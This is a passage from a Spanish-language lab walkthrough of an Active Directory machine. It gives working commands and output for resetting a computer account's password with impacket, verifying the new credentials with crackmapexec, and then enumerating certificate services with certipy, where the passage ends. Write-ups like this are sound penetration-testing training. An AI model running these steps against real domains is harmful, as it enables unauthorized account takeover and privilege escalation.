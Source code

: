 <p align="center">
<img src="https://i.imgur.com/R7Oka3M.png">
</p>

- También no lo dicen en el artículo en la parte de **Changing the password** además nos dicen que usemos **RPC** vamos a usar una herramienta de **impacket** para cambiarnos la contraseña. (Si ven una IP diferente es por qué pause la máquina y la volví arrancar y me cambio la IP).

```bash
➜  content impacket-changepasswd 'retro.vl/BANKING$':banking@10.10.121.174 -newpass Passwordxd1234 -dc-ip 10.10.121.174 -p rpc-samr
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\BANKING$
[*] Password was changed successfully.
```

- Ahora verificamos que la contraseña fue cambiada de manera exitosa.

```bash
➜  content crackmapexec smb 10.10.121.174 -u 'BANKING$' -p 'Passwordxd1234'
SMB         10.10.121.174   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.121.174   445    DC               [+] retro.vl\BANKING$:Passwordxd1234
```

## Active Directory Certificate Services

- Ahora que hemos cambiado la contraseña podemos usar **certipy** <https://github.com/ly4k/Certipy> aquí un post sobre los certificados <https://posts.specterops.io/certified-pre-owned-d95910965cd2> .

- Bueno, vamos a emplear la herramienta.

```bash
➜  content certipy-ad find -u 'BANKING$'@retro.vl -p Passwordxd1234 -dc-ip 10.10.121.174 -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00
    Certificate Validity End            : 2028-07-23 21:13:50+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : RETRO.VL\Administrators
      Access Rights
        ManageCa                        : RETRO.VL\Administrators
```
